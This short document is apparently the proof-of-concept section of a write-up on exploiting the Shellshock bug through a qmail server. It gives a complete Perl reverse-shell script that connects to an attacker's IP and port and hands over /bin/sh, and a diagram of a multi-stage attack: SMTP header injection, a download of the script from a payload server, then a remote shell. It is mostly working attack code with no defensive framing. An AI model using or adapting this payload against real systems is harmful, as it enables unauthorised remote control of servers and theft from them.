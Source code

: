 ## Proof of Concept

### Reverse Shell Script (rsh.perl)

```perl
#!/usr/bin/perl
# Reverse Shell Payload for Shellshock QMAIL Exploitation

use Socket;

$cmd = "lynx";
$system = 'echo "Connected to target system";/bin/sh';

if ($ARGV[1] eq "") {
    printf "Usage: %s <target_ip> <target_port>\n", $ARGV[0];
    exit(1);
}

$iaddr = inet_aton($ARGV[0]) || die("Error: $ARGV[0]\n");
$paddr = sockaddr_in($ARGV[1], $iaddr) || die("Error: $ARGV[1]\n");
$proto = getprotobyname('tcp');

socket(SOCKET, PF_INET, SOCK_STREAM, $proto) || die("Socket error");
connect(SOCKET, $paddr) || die("Connection error");

open(STDIN, ">&SOCKET");
open(STDOUT, ">&SOCKET");
open(STDERR, ">&SOCKET");

system($system);

close(SOCKET);
```

### Multi-Stage Attack Diagram

```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│   Attacker      │    │   QMAIL Server  │    │  Payload Server │
│                 │    │                 │    │                 │
│  1. Setup       │    │                 │    │  HTTP Server    │
│     Listener    │    │                 │    │  Port 8080      │
│                 │    │                 │    │                 │
├─────────────────┤    ├─────────────────┤    ├─────────────────┤
│                 │    │                 │    │                 │
│  2. SMTP        │───▶│  Process MAIL   │    │                 │
│     Injection   │    │  FROM Header    │    │                 │
│                 │    │                 │    │                 │
│                 │    │  3. Shellshock  │───▶│  Download       │
│                 │    │     Trigger     │    │  rsh.perl       │
│                 │    │                 │    │                 │
│  4. Receive     │◀───│  5. Execute     │    │                 │
│     Shell       │    │     Payload     │    │                 │
│                 │    │                 │    │                 │
└─────────────────┘    └─────────────────┘    └─────────────────┘
```
